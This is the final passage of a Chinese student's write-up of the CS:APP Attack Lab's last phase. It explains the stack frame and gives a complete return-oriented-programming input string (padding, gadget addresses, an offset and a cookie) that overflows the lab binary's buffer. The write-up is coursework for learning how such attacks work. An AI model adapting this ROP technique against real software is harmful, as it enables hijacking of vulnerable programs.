 ### 栈帧讲解

为节省空间，每一行代码都省略了后面的 `ret`，

![](https://kkcx.oss-cn-beijing.aliyuncs.com/img/image-20220305192432219.png)

逻辑在图上标的很清楚，这里就不再用文字写啦！

**要注意**，`getbuf` 执行 `ret` 后相当于进行了一次 `pop` 操作，`test` 的栈顶指针 `%rsp=%rsp+0x8`，所以 `cookie` 相对于此时栈顶指针的偏移量是 `0x48` 而不是 `0x50`

### Solution

根据上图的栈帧，写出输入序列：

```shell
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
ad 1a 40 00 00 00 00 00 
a2 19 40 00 00 00 00 00 
cc 19 40 00 00 00 00 00 
48 00 00 00 00 00 00 00 
dd 19 40 00 00 00 00 00 
70 1a 40 00 00 00 00 00 
13 1a 40 00 00 00 00 00 
d6 19 40 00 00 00 00 00 
a2 19 40 00 00 00 00 00 
fa 18 40 00 00 00 00 00 
35 39 62 39 39 37 66 61
```

![](https://kkcx.oss-cn-beijing.aliyuncs.com/img/image-20220305193301330.png)

**Pass! 攻击成功！**

## 总结

- 本实验涉及的内容在课本中只有短短几页的篇幅，而实际操作中却要考虑如此多的东西，确实是那句话“纸上得来终觉浅，绝知此事要躬行”。五个 `Phase` 的难度是层层递进的，`Part 1` 让我对部分汇编指令以及栈的原理有了更深的领悟；`Part 2` 可能就更加贴合实际工程项目了，我在这里初步学习了“ROP”这一天才的攻击技术，实现成功的攻击需要对每一个字节都能有足够的敏感。同时，在我以后编写的代码中，也应该注意到缓冲区溢出的问题
- 本实验耗时 2 天，约 9 小时
